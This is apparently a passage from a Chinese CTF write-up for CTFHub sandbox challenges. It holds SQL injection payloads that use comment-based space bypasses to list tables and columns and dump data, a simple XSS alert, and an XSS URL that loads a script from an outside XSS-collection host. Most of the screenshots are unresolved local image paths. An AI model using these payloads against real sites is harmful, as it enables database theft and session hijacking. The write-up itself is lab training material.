 ```
-1/**/union/**/select/**/1,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='sqli'
```

![image-20220610004706937](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610004706937.png)

```
-1/**/union/**/select/**/1,group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name='vbcdtuxijo'
```

![image-20220610005327214](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610005327214.png)

```
-1/**/union/**/select/**/1,group_concat(xnmoiqaqbh)/**/from/**/vbcdtuxijo
```

![image-20220610005545729](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610005545729.png)



## *XSS

<script>alert("xss")<script/>

![image-20220610101156383](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610101156383.png)

![image-20220610101401283](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610101401283.png)

![image-20220610101503366](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610101503366.png)

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610104642430.png" alt="image-20220610104642430" style="zoom:80%;" />

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610104722751.png" alt="image-20220610104722751" style="zoom:80%;" />

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610104956215.png" alt="image-20220610104956215" style="zoom:80%;" />

把这个代码放到name之后得

```
http://challenge-283b0a5aa0e44c88.sandbox.ctfhub.com:10800/?name=<sCRiPt sRC=//xss.pt/z45c></sCrIpT>
```

然后去看创建的项目

![image-20220610105238840](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610105238840.png)

## *密码口令

### **弱口令

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610112652238.png" alt="image-20220610112652238" style="zoom:80%;" />
